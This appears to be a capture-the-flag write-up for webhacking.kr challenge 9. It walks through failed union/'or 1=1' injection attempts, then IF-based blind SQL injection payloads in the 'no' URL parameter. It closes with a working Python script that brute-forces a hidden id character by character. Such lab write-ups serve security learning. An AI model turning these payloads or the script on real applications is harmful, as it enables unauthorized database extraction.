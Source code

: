 Problem9
===========   

This problem is in webhacking.kr.   
URL: <https://webhacking.kr/challenge/web-09/>   
 
If you enter in the URL, you can see like the bottom photo.   
      
<img src="./image/1.png"/>   

### First, Click 1    

<img src="./image/2.png"/>  

If you click one, you can see the page like this.  
Then, url of page is <https://webhacking.kr/challenge/web-09/?no=1>.     

### Second, Click 2    

<img src="./image/3.png"/>    

If you click two, you can see the page like this.   
Then, url of page is <https://webhacking.kr/challenge/web-09/?no=2>.  
   
### Third, Click 3   

<img src="./image/4.png"/>    

Likewise, only the 'no' value of URL changes to 3.   

Based on that, if you change the value of 'no' to 4, you can see like the bottom photo.   

<img src="./image/11.png"/>    
    
Thus, the specfic text is disappeared.    

#### But, we can know <strong>"column: id, no" and "no 3's id is password"</strong> through this.   
#### In conclusion, if you enter 3's ID in the password, the problem is solved.    
#### Besides, the column have two elements that are 'id' and 'no'.   

Through this, we can think about SQL Injection or Blind SQL Injection.    
So, I tried to enter <strong>union</strong>, <strong>select</strong>, <strong>' or 1=1#</strong> etc...   
But, the page showed <strong>Access Denied</strong> and could not be solved in this way.   

<img src="./image/5.png"/>    
   
Thus, I tried to use <strong>IF STATEMENT</strong> supporting by SQL.    
We can compose IF STATEMENT in the SQL where condition query.     
    
```   
if ( Condition, [Return when true], [Return when false] ) 
```   

Based on that, let's test.   
    
First, URL: https://webhacking.kr/challenge/web-09/?no=if(length(id)like(5),1,404) 

<img src="./image/6.png"/>    
     
The page correctly prints "Apple". Then, if you change the <strong>if(length(id)like(5),1,404)</strong> to <strong>if(length(id)like(5),2,404)</strong>,    
it will not print the word "Apple".  
   
<img src="./image/7.png"/>   

Second, let's test the second id.  

URL: https://webhacking.kr/challenge/web-09/?no=if(length(id)like(6),2,404)

The page correctly prints "Banana".   
   
<img src="./image/8.png"/>   
     
Thus, we could find out the string length of third ID in this way.   
In addition, we could find out third ID by using substr function.    

### It's not easy to get to know each one by one, so I wrote the code.   

## Python Code   
   
```  
import requests 

headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) \AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117'}
cookies = {'PHPSESSID':'1plfje78cfg4142vhfrt3l4lon'}
keywords = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'

def HttpRequest(num, text): 
    id_length = 0 
    result = ''
    for i in range(1, 20):
        url='https://webhacking.kr/challenge/web-09/index.php?no=if(length(id)like({}),{},404)'.format(i,num)
        res = requests.get(url, headers=headers, cookies=cookies)
        if text in res.text: 
            id_length = i
            print('no {}\'s id length: {}'.format(num, i))
            break 
    
    for i in range(1, id_length + 1):
        for key in keywords: 
            url = 'https://webhacking.kr/challenge/web-09/index.php?no=if(substr(id,{},1)like({}),{},404)'.format(i, hex(ord(key)), num)
            res = requests.get(url, headers=headers, cookies=cookies)
            if text in res.text: 
                result += key
                break 
    
    print("no {}\' id: {}".format(num, result))

if __name__== '__main__':
    HttpRequest(3, "Secret")

```    
   
In priority, After obtainning the length of the ID, find out the ID through keywords.   
In the result, we can obtain the third ID like this.     
      
### If you find it difficult to understand the code, refer to the bottom URL.  
Python Request Module: <https://hongku.tistory.com/292>    

<img src="./image/12.png"/>   

Thus, if you enter it to password, it will be solved like this.    
    
<img src="./image/10.png"/>   
    
 




